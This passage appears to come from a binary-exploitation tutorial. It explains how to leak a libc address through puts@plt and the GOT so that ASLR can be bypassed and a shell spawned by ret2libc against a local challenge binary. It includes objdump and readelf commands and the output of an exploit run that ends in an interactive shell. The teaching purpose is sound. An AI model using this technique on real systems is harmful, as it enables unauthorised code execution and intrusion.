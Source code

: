 \subsubsection{Making a leak}
Programs don't typically leak the addresses of their libc functions for free,
but once we gain control of the program, we can create a leak of our own. After
all, we're free to add any code we want via ret2libc and rop, so why not add
code to leak a libc address? Then once we have the libc address, we can cause
the program to return to the place where we first gained control and this time
use the leak to spawn a shell! Imagine the program below was compiled with
DEP/NX and running on a system which had ASLR enabled.
 Since the program makes several
calls to \texttt{puts()}, it must have entries for \texttt{puts()} in both its
PLT and GOT. We can view them with \texttt{objdump} and \texttt{readelf},
respectively. We can also find the address of \texttt{main()}.

\begin{lstlisting}
> objdump -d -j .plt ../challenges/rops/makeLeak | grep -A 3 puts
08048310 <puts@plt>:
 8048310:	ff 25 10 a0 04 08    	jmp    DWORD PTR ds:0x804a010
 8048316:	68 08 00 00 00       	push   0x8
 804831b:	e9 d0 ff ff ff       	jmp    80482f0 <_init+0x28>
> readelf --relocs ../challenges/rops/makeLeak | grep puts
0804a010  00000207 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
> readelf --syms makeLeak | grep main
     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
    55: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    61: 08048436    77 FUNC    GLOBAL DEFAULT   14 main
\end{lstlisting}

We can tell from the output above that \texttt{puts()} has a PLT address at
\texttt{0x08048310} and a GOT address at \texttt{0x0804a010}. We also see that
\texttt{main()} is located at \texttt{0x08048436}. In order to leak the location
of \texttt{puts()}, we will call \texttt{puts()} (by it's entry in the PLT) to
print it's own libc location (i.e. it's entry in the GOT). We'll then return to
\texttt{main()} and spawn a shell just as we did before. The following script
puts this plan into action.

When the script is run, it does indeed spawn a shell.
\begin{lstlisting}
> ./input_makeLeak.py
[+] Starting local process './makeLeak': pid 22514
[*] leaked puts address: 0xf7636ca0
[*] found libc base address: 0xf75d7000
[*] found system address: 0xf7611da0
[*] found "/bin/sh" address: 0xf77329ab
[*] Switching to interactive mode
Welcome to the No Security Aggregate
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.
$ whoami
devneal
$
\end{lstlisting}
